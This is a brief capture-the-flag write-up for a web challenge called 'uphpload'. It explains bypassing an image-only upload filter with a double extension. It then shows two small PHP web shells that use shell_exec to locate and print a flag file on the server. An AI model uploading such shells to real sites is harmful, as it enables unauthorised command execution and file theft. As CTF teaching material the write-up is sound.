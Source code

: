 # uphpload

## Description
![Chall desc](../../images/1.png)
  
## Solution
The webpage allows us to upload images and view them. This immediately suggests a file upload vulnerability.

![index](../../images/2.png)

The page only accepts image files. This can be bypassed using a double extension.

![index](../../images/3.png)

Upload a PHP script to search for `flag.txt` file:

```php
<?php
    print shell_exec('find / -name "flag.txt"');
?>
```

Click on the file in uploads to run the script. This gives us the flag location.

![index](../../images/4.png)

Now upload a script to print the flag:

```php
<?php
    print shell_exec('cat /flag_is_here/flag.txt');
?>
```

![index](../../images/5.png)